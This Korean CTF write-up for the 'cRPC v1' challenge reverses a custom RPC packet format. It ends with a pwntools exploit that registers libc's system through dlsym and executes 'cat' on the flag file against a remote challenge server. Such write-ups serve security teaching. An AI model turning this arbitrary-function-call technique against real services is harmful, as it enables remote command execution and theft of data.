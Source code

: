 # cRPC v1

# Usage

# Concept
- Packet Struct Analysis, Reversing, dlsym to Function add, execute

# Writeup

이 문제는 Reversing과 Pwnable 요소가 결합된 문제입니다. 간단한 RPC(Remote Procedure Call) 개념을 바탕으로 출제되었습니다. 

RPC에 대해 간단히 소개하자면, RPC는 Remote Procedure Call의 약자로, 한 컴퓨터에서 실행 중인 프로그램이 네트워크를 통해 다른 컴퓨터에서 실행 중인 프로그램의 기능을 호출하는 프로토콜입니다. Server와 Client 간에 정의된 인터페이스의 함수를 통해 Stub이 중간자 역할로 패킷을 pack/unpack 해주는 역할을 합니다.

컨셉은 사용자가 중간 Stub 역할을 하며, 패킷 구조를 리버싱해서 exploit하는 것입니다. 

Request/Response 패킷 구조와 패킷 타입은 다음과 같은 구조체로 이루어져 있습니다:

```c
typedef struct {
    uint32_t header;
    uint8_t type;
    uint32_t request_id;
    char* func_name;
    uint32_t name_length;
    char name[32];
    uint32_t param_length;
    char params[256];
} RequestMessage;

typedef struct {
    uint32_t length;
    uint8_t type;
    uint32_t request_id;
    uint8_t status;
    uint32_t result_length;
    char result[256];
} ResponseMessage;

enum type {
    ERROR = 0x01,
    REGISTER,
    UNREGISTER,
    PING,
    PONG,
    EXECUTE
};
```

여기서 중요한 부분은 `register_function`입니다. 사용자는 `REGISTER` 타입(2번)을 통해 함수를 등록할 수 있으며, `EXECUTE` 타입(6번)을 통해 해당 함수를 실행할 수 있습니다. 

```c
void __fastcall register_function(const char *a1)
{
  int v1; // ebx

  if ( func_count > 9 )
  {
    fwrite("Error: Maximum number of functions reached\n", 1uLL, 0x2BuLL, stderr);
  }
  else
  {
    v1 = func_count;
    *((_QWORD *)&func_list + 2 * v1) = strdup(a1);
    qword_6068[2 * func_count] = (void (__fastcall *)(__int64, char *))dlsym(0LL, a1);
    if ( qword_6068[2 * func_count] )
    {
      ++func_count;
    }
    else
    {
      fprintf(stderr, "Error: Function %s not found\n", a1);
      free(*((void **)&func_list + 2 * func_count));
    }
  }
}
```

`dlsym` 함수는 공유 객체에서 심볼을 찾으면 해당 주소를 반환하는 함수입니다. 함수 정의는 다음과 같습니다:

```c
#include <dlfcn.h>

void *dlsym(void *handle, const char *symbol);
```

프로그램 내에는 `handle_echo`, `handle_reverse`, `handle_write`, `handle_open`, `handle_read`, `handle_write` 등의 함수가 있지만, 이를 통해서는 exploit을 원활히 수행할 수 없습니다. 그러나 프로그램이 동적 링크로 컴파일되어 있다는 점을 이용해 `libc`에서 `system` 함수를 불러와 실행하면 원하는 명령을 수행할 수 있습니다.

```py
from pwn import *

context.log_level = 'debug'
# p = process('./crpc')
p = remote('realsung.kr', 18181)

'''
typedef struct {
    uint32_t header;
    uint8_t type;
    uint32_t request_id;
    char* func_name;
    uint32_t name_length;
    char name[32];
    uint32_t param_length;
    char params[256];
} RequestMessage;

typedef struct {
    uint32_t length;
    uint8_t type;
    uint32_t request_id;
    uint8_t status;
    uint32_t result_length;
    char result[256];
} ResponseMessage;

enum Type{
    ERROR = 0x01,
    REGISTER,
    UNREGISTER,
    PING,
    PONG,
    EXECUTE
};
'''

def request_packet(types, request_id, func_name, params):
    name_length = len(func_name)
    param_length = len(params)

    payload = p32(0xe0f1d2c3)
    payload += p32(types)
    payload += p32(request_id)
    payload += p64(0)
    payload += p32(0) # padding?
    payload += p32(name_length)
    payload += func_name
    payload += b'\x00'*(32-name_length)
    payload += p32(param_length)
    payload += params
    payload += b'\x00'*(256-param_length)
    return payload

payload = request_packet(0x02, 1, b"system", b".")
p.send(payload)
response_message = p.recv(0x1000)
print(hexdump(response_message))
print('-'*0x30)

payload = request_packet(0x06, 1, b"system", b"cat /home/crpc/flag.txt")
p.send(payload)

response_message = p.recv(0x1000)
print(hexdump(response_message))
print('-'*0x30)

p.interactive()
```